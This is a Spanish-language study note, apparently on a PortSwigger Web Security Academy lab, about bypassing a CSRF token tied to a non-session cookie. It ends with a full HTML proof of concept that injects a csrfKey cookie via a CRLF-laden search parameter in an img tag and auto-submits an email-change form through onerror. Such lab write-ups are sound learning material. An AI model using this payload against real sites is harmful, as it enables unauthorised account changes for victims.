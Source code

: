 #### Bypass token CSRF está vinculado a una cookie que no es de sesión (CRLF Injection)

- [[CRLF Injection]]

Algunas aplicaciones vinculan el token CSRF a una cookie, pero no a la misma cookie que se usa para rastrear sesiones (antiCSRF-token).

Esto puede ocurrir fácilmente cuando una aplicación emplea dos "tokens" diferentes, uno para el manejo de sesiones y otro para la protección CSRF, que no están integrados entre sí:

![[Pasted image 20230207221400.png]]

- la cooike de sesion y el **csrfkey** no estan vinculadas.
- el **csrfkey** y el parametro **csrf** si lo estan.

estos 2 tokens estan vinculados, si quisieramos armar una PoC en este caso, no funcionara porque mandaremos el **antiCSRF-token** en nuestro paylod pero no tendra el **token adicional** que necesita para que lo acepte (**ya que estan vinculados**)

si la pagina es vulnerable a CRLF Injection podemos injectar una cookie, en este caso el **token adicional** que necesita para funcionar, el payload se armaria de la siguiente manera:

peticion original para armar la PoC:

![[Pasted image 20230207223601.png]]

hay un parametro que es vulnerable a **CRLF Injection**:

![[Pasted image 20230207230234.png]]

burpsuite professional lo detecta asi:

![[Pasted image 20230207230445.png]]

creacion del payload PoC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a3a00ac034cdb88c289fdd9008a007a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;tes&#46;c" />
      <input type="hidden" name="csrf" value="vKD9Bl0rqwb1nMLeEXJNeyCMVW9vFiJG" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a3a00ac034cdb88c289fdd9008a007a.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=EibA9wtyNOlltjutBnG4iNDJIldfDUyU%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

vamos a aprovechar una etiqueta **img** para inyectar la cookie `src="https://0a3a00ac034cdb88c289fdd9008a007a.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=EibA9wtyNOlltjutBnG4iNDJIldfDUyU%3b%20SameSite=None"` con nuestro **csrfkey** y como esto no carga una imagen y da error, en el evento **onerror** vamos a enviar el formulario directamente.
